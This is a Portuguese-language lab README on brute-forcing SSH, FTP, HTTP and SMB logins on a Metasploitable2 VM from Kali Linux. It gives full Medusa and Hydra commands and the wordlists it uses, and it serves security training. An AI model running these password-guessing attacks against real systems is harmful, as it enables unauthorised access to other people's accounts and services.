



# Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux


### 🛠 Ferramentas Utilizadas

- Kali Linux (máquina atacante)
- Metasploitable2 (máquina alvo, servidor dos serviços atacados)
- Medusa – para ataques a serviços de rede

### 👩‍💻 Estrutura do Laboratorio

- A máquina atacada (Metasploitable2) será configuradas no VirtualBox, e a maquina atacante (Kali Linux) no wsl2.

A metasploitable2 é uma VM opensource que pode ser baixada neste link: https://www.vulnhub.com/entry/metasploitable-2,29/Sua.  instalção pode ser facilmente feita com VirtualBox.

### Ataques 💣

```plaintext
medusa -h [target IP] -u/U [username] -P [password list] -M [module] -t [threads]
```

- `-h`: Especifica o host de destino (endereço IP ou nome de domínio).
- `-u`: Define o nome de usuário a ser usado durante o ataque de força bruta.
- `-U`: Especifica uma lista de nomes de usuários.
- `-P`: Especifica o caminho para o arquivo de lista de senhas.
- `-M`: Selecione o módulo ou protocolo (como SSH, FTP ou HTTP).
- `-m`: Especifica um módulo personalizado para força bruta de formulário HTTP. O formato é `FORM:[login action URL]:[username field]=[password field]`.
- `-t`: Define o número de threads para conexões paralelas (o padrão é 16).

Medusa pode atingir serviços como SSH, FTP e HTTP, entre outros. Você pode personalizar o ataque ajustando o número de threads, mirando em vários hosts ou usando listas de palavras diferentes.

### 👾Exemplo 1: Força bruta SSH

```bash
medusa -h 192.168.1.36  -U usernames.txt -P passwords.txt -M ssh -t 10  | grep SUCCESS
```



### ☣Exemplo 2:Força bruta em  FTP

```bash
medusa -h 192.168.1.36  -U usernames.txt -P passwords.txt -M ftp -t 8  | grep SUCCESS
```



### 💀Exemplo 3: Força bruta de login HTTP


DVWA – Damn Vulnerable Web Application é uma ferramenta desenvolvida em PHP/MySQL que contém diversos tipos de vulnerabilidades Web, é uma ótima solução para praticar seus conhecimentos em Segurança de Aplicações Web.


```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.36 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```



### ☠ Exemplo 4: Força bruta em Serviço SMB 

```bash
medusa -h 192.168.1.36 -U usernames.txt -P passwords.txt -M smbnt -t 2 | grep SUCCESS
```


Agora vamos testar as credenciais encontrada (user: msfadmin e password: msfadmin):

```bash
smbclient -L //192.168.1.36 -U msfadmin
```

### 📚 Criação das wordlists

Para realizar os testes de força bruta, foram criados dois arquivos simples contendo combinações comuns de usuários e senhas:

📑passwords.txt - Lista de senhas fracas que serão utilizadas nas tentativas de autenticação.

```bash
echo -e "123456\npassword\nqwerty\nWelcome123\nmsfadmin" > passwords.txt
```

📄 usernames.txt - Lista  de usernames de usuários que serão testados nos serviços vulneráveis.

```bash
echo -e "user\nmsfadmin\nservice\nadmin\nroot" > usernames.txt
```


